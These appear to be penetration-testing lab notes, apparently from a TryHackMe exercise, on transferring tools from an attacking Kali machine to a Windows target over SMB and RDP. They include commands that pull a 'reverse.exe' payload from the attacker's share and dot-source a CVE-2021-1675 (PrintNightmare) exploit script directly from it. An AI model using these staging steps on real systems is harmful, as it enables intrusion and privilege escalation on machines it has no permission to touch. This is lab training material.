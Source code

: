 
---
### SMB Sharing

- go to folder path where you want to share the files
- Convert your machine into a smb server using

```
~THM/winprixesc  sudo impacket-smbserver share .
```

```
 `impacket-smbserver`: This is the command you are running. It is part of the `impacket` library
    
`share`: This is the name you are giving to the shared resource on the SMB server. Clients can connect to this server and access files under the "share" name.
    
`.`: it means that the SMB server will share the contents of the current directory.
```

- Now open your windows command line and use this command
```
copy \\10.17.24.189\share\reverse.exe C:\PrivEsc\reverse.exe
```

---

### RDP sharing

- Reference - [[6. Using RDP to transfer files from kali to windows]]

```
xfreerdp /v:10.10.25.75 /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
```


- `/drive:share,/tmp` -- this shares our own `/tmp` directory with the target. This is an _extremely_ useful trick as it allows us to execute scripts and programs from our own machine without actually transferring them to the target (we will see this in action later!)

- Accessing these shares in windows machine by opening a powershell session

We can import it using:  
```
. \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1
```

- Make sure to include the dot at the start!

- This uses dot-syntax to import any functions exposed by the script. We are using `\\tsclient\share` to reference the share that we created. 

- This allows us to view (and thus import) files that are stored in the /tmp folder of our own attacking machine!

---


